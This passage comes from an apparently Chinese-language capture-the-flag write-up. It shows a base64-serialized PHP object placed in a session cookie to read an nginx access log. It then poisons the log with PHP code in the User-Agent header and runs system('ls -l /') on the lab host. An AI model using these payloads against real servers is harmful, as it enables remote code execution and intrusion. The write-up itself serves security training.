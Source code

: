         <?php echo 'sleep 5s';
        ```

    * 尝试读取日志

      * 第一次读取

        * Cookie参数

          ```shell
          O:9:"PageModel":1:{s:4:"file";s:25:"/var/log/nginx/access.log";}
          
          Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoyNToiL3Zhci9sb2cvbmdpbngvYWNjZXNzLmxvZyI7fQ==
          ```

        * 响应

          ```shell
          138.68.182.108 - 200 "GET / HTTP/1.1" "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36" 
          ```

      * 由于将User-Agent写入了Log，那么尝试将攻击代码写入User-Agent

        * HTTP参数

          ```shell
          GET / HTTP/1.1
          
          Host: 138.68.182.108:30870
          User-Agent: <?php phpinfo(); ?>
          Accept-Language: en-US,en;q=0.5
          Accept-Encoding: gzip, deflate
          Connection: close
          Cookie: PHPSESSID=Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoyNToiL3Zhci9sb2cvbmdpbngvYWNjZXNzLmxvZyI7fQ==
          Upgrade-Insecure-Requests: 1
          Cache-Control: max-age=0
          ```

        * 响应体，顺利返回

          ![image-20210510115132576](https://monkeydatabase.github.io/img/image-20210510115132576.png)

        * 进行目录遍历

          ```http
          GET / HTTP/1.1
          
          Host: 206.189.121.131:31906
          User-Agent: <?php system('ls -l /');?>
          Accept-Language: en-US,en;q=0.5
          Accept-Encoding: gzip, deflate
          Connection: close
          Cookie: PHPSESSID=Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoyNToiL3Zhci9sb2cvbmdpbngvYWNjZXNzLmxvZyI7fQ==
          Upgrade-Insecure-Requests: 1
          Cache-Control: max-age=0
          ```
